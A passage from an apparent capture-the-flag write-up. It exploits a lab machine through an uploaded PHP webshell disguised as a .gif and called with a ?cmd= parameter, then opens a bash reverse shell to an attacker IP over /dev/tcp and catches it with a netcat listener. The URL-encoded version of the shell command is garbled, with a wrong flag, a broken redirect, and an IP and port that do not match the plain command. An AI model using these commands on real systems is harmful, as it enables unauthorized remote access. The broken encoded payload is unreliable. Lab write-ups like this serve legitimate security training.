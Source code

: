 ```
10.129.228.3/uploads/10_10_17_145.php.gif?cmd=ls ../
```
- The directory list will display.
- So, we know the webshell works now.

![](./IMG/11.png)
- Try to get a permanent reverse shell 
```
bash -c 'bash -i >& /dev/tcp/10.10.14.12/1234 0>&1'
```
- URL encoded the special character
```
bash%20-c%20%27bash%20-u%20%3e%26%20/dev/tcp/10.10.17.145/1336%20/53e%261%27
```

![](./IMG/12.png)
- nc listener get reply, I got the reverse shell
- Try to check user flag in guly directory but failed
